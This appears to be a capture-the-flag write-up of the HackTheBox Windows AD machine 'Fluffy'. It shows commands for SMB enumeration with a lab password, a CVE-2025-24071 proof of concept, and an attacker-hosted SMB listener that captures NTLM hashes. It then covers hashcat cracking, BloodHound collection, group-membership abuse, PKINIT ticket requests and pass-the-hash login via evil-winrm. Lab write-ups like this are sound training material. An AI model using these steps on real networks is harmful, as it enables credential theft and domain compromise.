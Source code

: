 # HTB - Fluffy 🐇

Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 ```exploit.py -i 10.10.16.40 -s shared -f evil```
 3. Start listener for hash capture:
   ```sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support```
   3. Upload payload to target IT share.
      ``put evil.zip``

4. You should se username + hash on listner.

5. Crack the with rockyou.txt: 
  ``` hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt``

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. Create a BloodHound file and upload to bloodhound review.
      ```
        sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP> ```


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

## Add User to Service Accounts

```
net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>" ```


Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

sudo rdate -n <TARGET_IP>


Generate a TGT using faketime:
```
faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache```


Set the Kerberos ticket environment variable:

```export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache```


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

Retrieve NT Hash
```faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>```

Access Service Account
```evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>```



